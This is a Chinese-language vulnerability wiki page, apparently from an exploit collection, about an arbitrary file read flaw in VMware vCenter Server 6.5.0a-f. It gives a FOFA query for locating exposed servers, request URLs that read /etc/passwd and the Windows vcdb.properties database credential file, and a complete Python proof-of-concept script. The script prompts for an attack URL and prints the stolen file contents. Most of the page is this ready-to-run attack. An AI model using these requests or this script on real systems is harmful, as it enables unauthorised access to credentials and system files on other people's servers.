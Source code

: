 # VMware vCenter任意文件读取漏洞

## 漏洞描述

VMware vCenter特定版本存在任意文件读取漏洞，攻击者通过构造特定的请求，可以读取服务器上任意文件、

## 漏洞影响

> [!NOTE]
>
> VMware vCenter Server 6.5.0a- f 版本

## FOFA

> [!NOTE]
>
> title="ID_VC_Welcome"

## 漏洞复现

![](http://wikioss.peiqi.tech/vuln/vm-1.png?x-oss-process=image/auto-orient,1/quality,q_90/watermark,image_c2h1aXlpbi9zdWkucG5nP3gtb3NzLXByb2Nlc3M9aW1hZ2UvcmVzaXplLFBfMTQvYnJpZ2h0LC0zOS9jb250cmFzdCwtNjQ,g_se,t_17,x_1,y_10)

使用POC访问漏洞点

> [!NOTE]
>
> Windows主机

```
http://xxx.xxx.xxx.xxx/eam/vib?id=C:\ProgramData\VMware\vCenterServer\cfg\vmware-vpx\vcdb.properties
```

![](http://wikioss.peiqi.tech/vuln/vm-2.png?x-oss-process=image/auto-orient,1/quality,q_90/watermark,image_c2h1aXlpbi9zdWkucG5nP3gtb3NzLXByb2Nlc3M9aW1hZ2UvcmVzaXplLFBfMTQvYnJpZ2h0LC0zOS9jb250cmFzdCwtNjQ,g_se,t_17,x_1,y_10)

> [!NOTE]
>
> Linux主机

```
https://xxx.xxx.xxx.xxx/eam/vib?id=/etc/passwd
```

![](http://wikioss.peiqi.tech/vuln/vm-3.png?x-oss-process=image/auto-orient,1/quality,q_90/watermark,image_c2h1aXlpbi9zdWkucG5nP3gtb3NzLXByb2Nlc3M9aW1hZ2UvcmVzaXplLFBfMTQvYnJpZ2h0LC0zOS9jb250cmFzdCwtNjQ,g_se,t_17,x_1,y_10)

## 漏洞利用POC

```python
import requests
import sys
import random
import re
from requests.packages.urllib3.exceptions import InsecureRequestWarning

def title():
    print('+------------------------------------------')
    print('+  \033[34mPOC_Des: http://wiki.peiqi.tech                                   \033[0m')
    print('+  \033[34mVersion: VMware vCenter任意文件读取漏洞                               \033[0m')
    print('+  \033[36m使用格式:  python3 poc.py                                            \033[0m')
    print('+  \033[36mUrl         >>> http://xxx.xxx.xxx.xxx                             \033[0m')
    print('+------------------------------------------')

def POC_1(target_url):
    vuln_url_windows = target_url + "/eam/vib?id=C:\ProgramData\VMware\\vCenterServer\cfg\\vmware-vpx\\vcdb.properties"
    vuln_url_linux = target_url + "/eam/vib?id=/etc/passwd"
    headers = {
        "User-Agent": "Mozilla/5.0 (Windows NT 10.0; Win64; x64) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/86.0.4240.111 Safari/537.36",
    }
    try:
        requests.packages.urllib3.disable_warnings(InsecureRequestWarning)
        response_linux = requests.get(url=vuln_url_linux, headers=headers, verify=False, timeout=5)
        response_windows = requests.get(url=vuln_url_windows, headers=headers, verify=False, timeout=5)
        if "password" in response_windows.text and response_windows.status_code == 200:
            print("\033[32m[o] 目标 {}存在漏洞 ,成功读取 vcdb.properties \033[0m".format(target_url))
            print("\033[32m[o] Windows系统, 响应为:\n{} \033[0m".format(response_windows.text))
        elif "root" in response_linux.text and response_linux.status_code == 200:
            print("\033[32m[o] 目标 {}存在漏洞 ,成功读取 /etc/passwd \033[0m".format(target_url))
            print("\033[32m[o] Linux系统, 响应为:\n{} \033[0m".format(response_linux.text))
        else:
            print("\033[31m[x] 不存在漏洞 \033[0m")
            sys.exit(0)
    except Exception as e:
        print("\033[31m[x] 请求失败 \033[0m", e)


if __name__ == '__main__':
    title()
    target_url = str(input("\033[35mPlease input Attack Url\nUrl >>> \033[0m"))
    POC_1(target_url)
```

![](http://wikioss.peiqi.tech/vuln/vm-4.png?x-oss-process=image/auto-orient,1/quality,q_90/watermark,image_c2h1aXlpbi9zdWkucG5nP3gtb3NzLXByb2Nlc3M9aW1hZ2UvcmVzaXplLFBfMTQvYnJpZ2h0LC0zOS9jb250cmFzdCwtNjQ,g_se,t_17,x_1,y_10)